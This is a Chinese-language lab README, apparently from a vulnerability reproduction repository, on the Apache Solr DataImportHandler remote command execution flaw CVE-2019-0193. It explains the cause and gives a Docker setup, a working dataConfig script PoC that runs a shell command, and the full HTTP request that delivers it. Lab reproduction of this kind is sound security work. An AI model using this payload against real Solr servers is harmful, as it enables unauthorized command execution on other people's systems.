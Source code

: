 # Apache Solr 远程命令执行漏洞（CVE-2019-0193）

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

首先在页面左侧选择`demo`核心，打开Dataimport面板，开启右侧Debug mode，填入以下POC：

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](1.jpg)

点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行`docker compose exec solr ls /tmp`进入容器，可见`touch /tmp/success`已成功执行：

![](2.jpg)
